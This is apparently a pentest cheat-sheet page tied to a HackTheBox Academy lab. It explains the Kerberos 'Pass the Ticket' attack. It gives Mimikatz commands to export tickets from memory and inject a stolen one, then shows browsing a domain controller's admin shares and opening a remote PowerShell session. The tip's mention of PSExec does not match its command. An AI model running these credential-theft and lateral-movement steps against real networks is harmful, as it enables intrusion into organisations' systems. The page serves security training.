 # Pass the Ticket

In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.

## External Resources

- [HackTheBox Academy](https://academy.hackthebox.com/module/147/section/1639)

## Examples

### Inject a Kerberos ticket into the current session

First, we need to harvest the Kerberos ticket. We can use Mimikatz for this:

```batch
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
```

A few `.kirbi` files will be created in the current directory. These are the Kerberos tickets.

We can use `mimikatz.exe` to inject the ticket into our current session:

```batch
mimikatz.exe "kerberos::ptt [0;4e7ef]-2-0-40e10000-julio@krbtgt-INLANEFREIGHT.HTB.kirbi" "exit"
dir \\DC01.inlanefreight.htb\sharename
dir \\DC01.inlanefreight.htb\c$\Users
```

:::tip Get a remote shell

If we have enough privileges, we can try to use PSExec to get a remote shell:

```powershell
Enter-PSSession -ComputerName DC01.inlanefreight.htb
```

:::

